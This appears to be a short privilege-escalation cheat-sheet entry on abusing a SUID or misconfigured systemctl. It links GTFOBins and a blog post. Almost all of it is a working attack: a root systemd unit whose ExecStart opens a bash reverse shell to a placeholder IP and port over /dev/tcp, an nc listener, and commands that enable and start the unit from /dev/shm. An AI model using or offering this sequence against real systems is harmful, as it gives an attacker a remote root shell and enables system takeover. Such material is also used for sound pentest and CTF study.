 # systemctl

{% embed url="https://gtfobins.github.io/gtfobins/systemctl#suid" %}

{% embed url="https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49" %}

```
$ cat <<EOF > root.service
>[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'

[Install]
WantedBy=multi-user.target
>EOF
```

```
Listen on <port>
$ nc -nlvp <port>
```

```
/bin/systemctl enable /dev/shm/root.service
/bin/systemctl start root
```
